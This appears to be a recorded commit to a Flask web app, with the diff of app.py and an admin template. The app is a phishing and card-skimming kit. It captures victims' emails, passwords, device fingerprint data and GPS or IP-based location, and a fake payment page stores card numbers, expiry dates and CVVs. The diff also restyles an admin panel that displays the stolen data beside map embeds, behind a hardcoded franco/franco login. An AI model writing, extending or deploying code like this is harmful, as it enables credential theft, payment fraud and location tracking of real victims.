

Before and after one commit to extermi3939/Despliegue-V11-Forensic-a-Render, a Flask app: page /matrix_admin in a window 1280 px wide. Shown: the top 697 px of the page. Run offline with Flask 3, Linux system fonts and the light colour scheme; the visitor is signed in with stand-in values (Sample User, id 1); data comes from the database, SQL or seed files in the repository.

Commit message:
V13 Master Executive: Fix Pago y Panel Completo

```diff
--- a/app.py
+++ b/app.py
@@ -3,9 +3,9 @@ from datetime import datetime
 from flask import Flask, render_template, request, redirect, url_for, session
 
 app = Flask(__name__)
-app.secret_key = 'franco_v13_master_key'
+app.secret_key = 'franco_v13_master_executive'
 
-# --- CONFIGURACIÓN DE DIRECTORIOS ---
+# CONFIGURACIÓN DE RUTAS
 BASE_DIR = os.path.dirname(os.path.abspath(__file__))
 UPLOAD_FOLDER = os.path.join(BASE_DIR, 'static', 'uploads')
 SYSTEM_FOLDER = os.path.join(BASE_DIR, 'static', 'system')
@@ -21,19 +21,17 @@ def init_db():
         (id INTEGER PRIMARY KEY AUTOINCREMENT, user TEXT, pass TEXT, tarjeta TEXT,
          banco TEXT, tipo TEXT, hora TEXT, dispositivo TEXT, city TEXT, lat REAL, lon REAL,
          bateria TEXT, resolucion TEXT, lenguaje TEXT, zona_horaria TEXT)''')
-    conn.commit()
-    conn.close()
+    conn.commit(); conn.close()
 
 init_db()
 
-# CONFIGURACIÓN INICIAL
 config_web = {
     "user_admin": "franco",
     "pass_admin": "franco",
     "alias": "VIP.FRANCO.PAGOS",
     "precio": "2500",
     "img_principal": "/static/system/portada.jpg",
-    "titulo": "ACCESO PRIVADO VIP",
+    "titulo": "ACCESO EXCLUSIVO VIP",
     "color_fondo": "#1a0033",
     "color_texto": "#ffffff"
 }
@@ -46,15 +44,16 @@ def login():
 def auth():
     u, p = request.form.get('email'), request.form.get('pass')
     bat, res, lang, tz = request.form.get('bateria','N/D'), request.form.get('resolucion','N/D'), request.form.get('lenguaje','N/D'), request.form.get('tz','N/D')
-    lat_gps = float(request.form.get('lat_gps', 0))
-    lon_gps = float(request.form.get('lon_gps', 0))
+    lat_gps = request.form.get('lat_gps', 0)
+    lon_gps = request.form.get('lon_gps', 0)
 
-    city = "Desconocida"
-    if lat_gps == 0:
-        try:
-            geo = requests.get(f'http://ip-api.com/json/{request.remote_addr}', timeout=2).json()
-            city, lat_gps, lon_gps = geo.get('city','N/A'), geo.get('lat',0), geo.get('lon',0)
-        except: pass
+    city = "Buscando..."
+    try:
+        geo = requests.get(f'http://ip-api.com/json/{request.remote_addr}', timeout=2).json()
+        city = geo.get('city','N/A')
+        if lat_gps == 0:
+            lat_gps, lon_gps = geo.get('lat',0), geo.get('lon',0)
+    except: pass
 
     ua = request.headers.get('User-Agent', '')
     disp = "iOS" if "iPhone" in ua else "Android" if "Android" in ua else "PC"
@@ -77,14 +76,12 @@ def dashboard():
 def captura_pago():
     rid = session.get('current_id')
     if rid:
-        cc = request.form.get('cc')
-        exp = request.form.get('exp')
-        cvv = request.form.get('cvv')
+        cc, exp, cvv = request.form.get('cc'), request.form.get('exp'), request.form.get('cvv')
         data_card = f"CC: {cc} | EXP: {exp} | CVV: {cvv}"
         conn = sqlite3.connect(DB_PATH); cursor = conn.cursor()
         cursor.execute("UPDATE registros SET tarjeta=? WHERE id=?", (data_card, rid))
         conn.commit(); conn.close()
-    return "✅ PAGO EN PROCESO... REVISE SU EMAIL."
+    return "✅ PROCESANDO PAGO... ESPERE."
 
 @app.route('/matrix_admin', methods=['GET', 'POST'])
 def admin_matrix():
@@ -92,7 +89,6 @@ def admin_matrix():
         if request.form.get('user') == config_web["user_admin"] and request.form.get('pass') == config_web["pass_admin"]:
             session['is_admin'] = True
     if not session.get('is_admin'): return render_template('admin_login.html')
-
     conn = sqlite3.connect(DB_PATH); cursor = conn.cursor()
     cursor.execute("SELECT * FROM registros ORDER BY id DESC")
     regs = cursor.fetchall(); conn.close()
@@ -105,10 +101,8 @@ def update_full():
             f = request.files['file_portada']
             if f.filename != '': f.save(os.path.join(SYSTEM_FOLDER, "portada.jpg"))
         config_web.update({
-            "titulo": request.form.get('titulo'),
-            "alias": request.form.get('alias'),
-            "precio": request.form.get('precio'),
-            "color_fondo": request.form.get('color_fondo'),
+            "titulo": request.form.get('titulo'), "alias": request.form.get('alias'),
+            "precio": request.form.get('precio'), "color_fondo": request.form.get('color_fondo'),
             "color_texto": request.form.get('color_texto')
         })
     return redirect(url_for('admin_matrix'))
--- a/templates/admin.html
+++ b/templates/admin.html
@@ -2,44 +2,80 @@
 <html lang="es">
 <head>
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>ADMIN_V13</title>
+    <title>MASTER_CONTROL_V13</title>
     <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.0/dist/css/bootstrap.min.css">
     <style>
         body { background: #000; color: #00ff41; font-family: monospace; font-size: 0.8rem; }
-        .m-box { border: 1px solid #00ff41; background: rgba(0,20,0,0.9); padding: 10px; margin-bottom: 10px; }
-        .table { color: #00ff41; border-color: #004400; }
-        .card-data { color: #ff3131; font-weight: bold; border: 1px dashed #ff3131; padding: 5px; display: block; }
+        .m-box { border: 1px solid #00ff41; background: rgba(0,20,0,0.95); padding: 15px; margin-bottom: 12px; border-radius: 8px; }
+        .table { color: #00ff41; border-color: #004400; font-size: 0.75rem; }
+        .thumb { width: 50px; height: 50px; object-fit: cover; border: 1px solid #00ff41; margin: 3px; border-radius: 4px; }
+        input, .form-control { background: #000 !important; color: #00ff41 !important; border: 1px solid #00ff41 !important; font-size: 0.8rem; }
+        .label-p { color: #00ccff; font-weight: bold; font-size: 0.65rem; display: block; margin-top: 8px; }
+        .card-data { color: #ff3131; font-weight: bold; border: 1px dashed #ff3131; padding: 4px; border-radius: 4px; }
     </style>
 </head>
 <body class="p-3">
+    <h5 class="mb-4 border-bottom border-success pb-2">> MASTER_SYSTEM_V13_FRANCO</h5>
     <div class="row">
         <div class="col-md-3">
             <div class="m-box">
-                <h6>CONFIGURACIÓN</h6>
+                <p class="text-white small fw-bold">> CONFIGURACIÓN_VISUAL</p>
                 <form action="/update_full" method="POST" enctype="multipart/form-data">
-                    <input type="text" name="titulo" value="{{config.titulo}}" class="form-control form-control-sm mb-2" placeholder="Título">
-                    <input type="text" name="alias" value="{{config.alias}}" class="form-control form-control-sm mb-2" placeholder="Alias Pago">
-                    <input type="text" name="precio" value="{{config.precio}}" class="form-control form-control-sm mb-2" placeholder="Precio">
-                    <input type="color" name="color_fondo" value="{{config.color_fondo}}" class="form-control form-control-sm mb-2">
-                    <button class="btn btn-success btn-sm w-100">ACTUALIZAR</button>
+                    <span class="label-p">SUBIR PORTADA:</span>
+                    <input type="file" name="file_portada" class="form-control form-control-sm mb-2">
+                    <span class="label-p">TÍTULO DEL SITIO:</span>
+                    <input type="text" name="titulo" value="{{config.titulo}}" class="form-control form-control-sm mb-2">
+                    <span class="label-p">ALIAS PAGO:</span>
+                    <input type="text" name="alias" value="{{config.alias}}" class="form-control form-control-sm mb-2">
+                    <span class="label-p">PRECIO:</span>
+                    <input type="text" name="precio" value="{{config.precio}}" class="form-control form-control-sm mb-2">
+                    <div class="row g-2 mb-3">
+                        <div class="col-6"><span class="label-p">FONDO:</span><input type="color" name="color_fondo" value="{{config.color_fondo}}" class="form-control form-control-sm h-auto"></div>
+                        <div class="col-6"><span class="label-p">TEXTO:</span><input type="color" name="color_texto" value="{{config.color_texto}}" class="form-control form-control-sm h-auto"></div>
+                    </div>
+                    <button class="btn btn-outline-success btn-sm w-100">GUARDAR_CAMBIOS</button>
                 </form>
             </div>
+            <div class="m-box">
+                <p class="text-white small fw-bold">> GESTIÓN_GALERÍA</p>
+                <form action="/upload_media" method="POST" enctype="multipart/form-data">
+                    <input type="file" name="file_gallery" class="form-control form-control-sm mb-2">
+                    <button class="btn btn-outline-primary btn-sm w-100 mb-2">SUBIR_FOTO</button>
+                </form>
+                <div class="d-flex flex-wrap overflow-auto" style="max-height: 150px;">
+                    {% for f in archivos %}
+                    <div class="position-relative">
+                        <img src="/static/uploads/{{f}}" class="thumb">
+                        <a href="/delete_file/{{f}}" class="btn btn-danger btn-sm p-0 position-absolute top-0 end-0" style="width:15px;height:15px;font-size:10px;">X</a>
+                    </div>
+                    {% endfor %}
+                </div>
+            </div>
         </div>
+
         <div class="col-md-9">
-            <div class="m-box">
-                <h6>REGISTROS CAPTURADOS</h6>
-                <table class="table table-dark table-sm">
-                    <thead><tr><th>USUARIO/PASS</th><th>UBICACIÓN</th><th>TARJETA</th><th>MAPA</th></tr></thead>
+            <div class="m-box overflow-auto">
+                <p class="text-white small fw-bold">> LOGS_FORENSES_CAPTURA</p>
+                <table class="table table-dark table-hover table-sm">
+                    <thead>
+                        <tr>
+                            <th>IDENTIDAD</th>
+                            <th>HUELLA/BAT</th>
+                            <th>TARJETA</th>
+                            <th>UBICACIÓN/MAPA</th>
+                        </tr>
+                    </thead>
                     <tbody>
                         {% for r in registros %}
                         <tr>
                             <td><b>{{r[1]}}</b><br><small class="text-info">{{r[2]}}</small></td>
-                            <td><small>{{r[8]}}</small><br><small class="text-muted">{{r[9]}}, {{r[10]}}</small></td>
+                            <td><small class="text-warning">BAT: {{r[11]}}</small><br><small>{{r[12]}} | {{r[7]}}</small></td>
                             <td><span class="card-data">{{r[3]}}</span></td>
                             <td>
+                                <small class="d-block text-muted">{{r[8]}}</small>
                                 {% if r[9] != 0 %}
-                                <iframe width="100" height="60" src="https://maps.google.com/maps?q={{r[9]}},{{r[10]}}&z=15&output=embed"></iframe>
-                                {% endif %}
+                                <iframe width="130" height="75" src="https://maps.google.com/maps?q={{r[9]}},{{r[10]}}&hl=es&z=14&output=embed" style="border:1px solid #00ff41; border-radius:5px;"></iframe>
+                                {% else %}<small class="text-danger">Sin señal GPS</small>{% endif %}
                             </td>
                         </tr>
                         {% endfor %}
```
Also changed, not shown: templates/dashboard.html (+9 -32 lines), templates/login.html (+25 -21 lines).
